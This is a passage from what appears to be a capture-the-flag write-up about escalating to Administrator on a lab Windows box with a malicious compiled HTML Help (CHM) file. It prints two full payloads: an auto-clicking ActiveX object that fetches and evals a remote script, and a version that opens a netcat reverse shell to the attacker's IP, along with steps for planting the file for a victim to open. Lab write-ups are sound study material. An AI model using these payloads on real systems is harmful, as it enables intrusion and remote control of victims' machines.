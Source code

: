 Using [this](https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7) GitHub page as reference I started running a few tests locally after installing the HTML Help WorkShop on a Windows 10 box. I'm pretty sure there's a way to craft CHM files on Linux too but if I remember correctly it involves Wine and when I use Wine nothing works, so I went the Windows way.

This is the base code provided by GitHub:

```html
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
  <PARAM name="Command" value="ShortCut">
  <PARAM name="Button" value="Bitmap::shortcut">
  <PARAM name="Item1" value=',cmd.exe,/c copy /Y C:\Windows\system32\rundll32.exe %TEMP%\out.exe > nul && %TEMP%\out.exe javascript:"\..\mshtml RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8000/test.vbs",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im out.exe",0,true);}'>
  <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
  x.Click();
</SCRIPT>
```

Basically the code simulates a button that presses itself triggering the payload contained in Item1, which is far more complicated than it needs to be for this single challenge so I'll make it simpler.

After obtaining the a.html file contained in the original CHM found on the box by unpacking it with 7zip we can simply change the code to make it look like this:

```html
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
  <PARAM name="Command" value="ShortCut">
  <PARAM name="Button" value="Bitmap::shortcut">
  <PARAM name="Item1" value=',cmd.exe,/c c:\users\chris\documents\nc64.exe -e cmd.exe 10.10.14.144 6666'>
  <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
  x.Click();
</SCRIPT>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

This reuses the nc64 binary dropped in Chris' folder to start yet another reverse shell. Create a new project in the HTML Help WorkShop with that code and compile it, then drop the output CHM file in C:\Docs and soon enough what I can only presume to be the CEO will open it giving us a shell as the Administrator:
